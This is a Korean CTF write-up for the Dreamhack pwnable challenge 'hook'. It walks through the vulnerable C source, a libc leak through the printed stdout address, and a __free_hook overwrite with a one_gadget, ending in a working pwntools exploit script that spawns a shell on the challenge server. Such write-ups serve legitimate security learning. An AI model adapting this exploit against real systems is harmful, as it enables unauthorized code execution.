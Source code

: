 ```yaml
---
layout: post
title: Pwnable | [Dreamhack] hook 
subtitle: Dreamhack-Pwnable hook
categories: Pwnable
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/201270726-166afd16-6247-4909-971f-75e38c87eca6.jpg" width = 550>
</p>

## 문제 풀이

이번 문제도 **Full RELRO**로 인해서 Now binding, 프로그램이 실행될 때 해당 프로그램에서 사용되는 함수들의 주소를 읽어와 GOT 영역에 저장하기에, GOT Overwrite가 불가능하다. 또한, Canary가 있기에 leak이 가능할 지 확인을 해야한다.

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);

    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}
```

```C
printf("stdout: %p\n", stdout);

printf("Size: ");
scanf("%ld", &size);

ptr = malloc(size);
```

* 처음에 `stdout`의 메모리 주소를 출력해주는 것으로 보아 해당 값을 통해서 libc_base 주소를 찾으면 될 것으로 예상된다.

* `size`를 입력받아 그 만큼의 크기를 `ptr`에 할당해준다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/201009026-d632c342-9f7b-4161-84de-eec9f6408e2c.jpg" width = 500>
</p>

* `stdout`라는 함수는 `_IO_2_1_stdout_`라는 이름을 가지고 있기에 libc_base를 구할 때 해당 이름으로 구해야 한다.

```C
printf("Data: ");
read(0, ptr, size);

*(long *)*ptr = *(ptr+1);
```

* 할당받은 `ptr`에 입력받은 `size`만큼 read()가 가능하다. 

* **\*\*ptr**에는 **[ptr+1]** 즉, **ptr+0x8**의 값이 들어가있다._(하지만, 어떻게 작용이 되는지 이해를 하지 못했다.)_

```C
free(ptr);
free(ptr);

system("/bin/sh");
return 0;
```

* `free(ptr)`를 두 번하여 **double free detected**로 프로그램이 강제 종료된다.

  * _하지만, 실질적으로는 `*(long *)*ptr = *(ptr+1);`에서 segmetation fault로 프로그램이 종료된다._

* 따라서, `system("/bin/sh");`를 실행하지 못한다.

* `free()`함수에는 **__free_hook**이 있기에 Hook overwrite가 가능할 것이다.

```python
from pwn import *

p = remote('host3.dreamhack.games', 14260)
# p = process('./hook')
e = ELF('./hook')
libc = ELF('./libc.so.6')

p.recvuntil('stdout: ')
stdout = int(p.recv(14), 16)

libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
free_hook = libc_base + libc.symbols['__free_hook']

one_gadget = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

og = libc_base + one_gadget[1]

payload = p64(free_hook) + p64(og)
p.sendlineafter('Size: ', '500') # any values
p.sendlineafter('Data: ', payload)

p.interactive()
```